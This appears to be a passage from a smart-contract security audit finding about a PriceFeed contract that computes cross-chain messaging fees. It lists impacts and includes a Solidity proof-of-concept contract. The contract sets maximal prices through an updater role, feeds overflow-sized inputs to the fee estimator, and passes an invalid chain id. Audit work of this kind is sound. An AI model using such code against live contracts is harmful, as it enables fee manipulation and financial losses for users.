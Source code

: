 ### Impact
- Price manipulation leading to incorrect fees
- Economic attacks through price updates
- Potential DoS through fee calculation exploits
- Cross-chain message failures due to incorrect fees
- Financial losses due to fee calculation errors

### Proof of Concept
```solidity
contract PriceFeedExploit {
    function demonstrateIssues(address priceFeed) external {
        PriceFeed p = PriceFeed(priceFeed);
        
        // 1. Price manipulation
        if (p.priceUpdater(address(this))) {
            // Set malicious prices
            UpdatePrice[] memory updates = new UpdatePrice[](1);
            updates[0] = UpdatePrice({
                eid: 1,
                price: Price({
                    priceRatio: type(uint128).max,
                    gasPriceInUnit: type(uint64).max,
                    gasPerByte: type(uint32).max
                })
            });
            p.setPrice(updates);
        }
        
        // 2. Fee calculation exploit
        // Cause overflow in fee calculation
        uint256 maxCallDataSize = type(uint256).max;
        uint256 maxGas = type(uint256).max;
        try p.estimateFeeByChain(110, maxCallDataSize, maxGas) {
            // Should overflow
        } catch {
            // Expected
        }
        
        // 3. Model selection exploit
        // Use incorrect model for chain
        uint16 invalidEid = 999;
        try p.estimateFeeByChain(invalidEid, 100, 100000) {
            // Should use default model
            // Could lead to incorrect fees
        } catch {
            // Expected
        }
    }
}
```
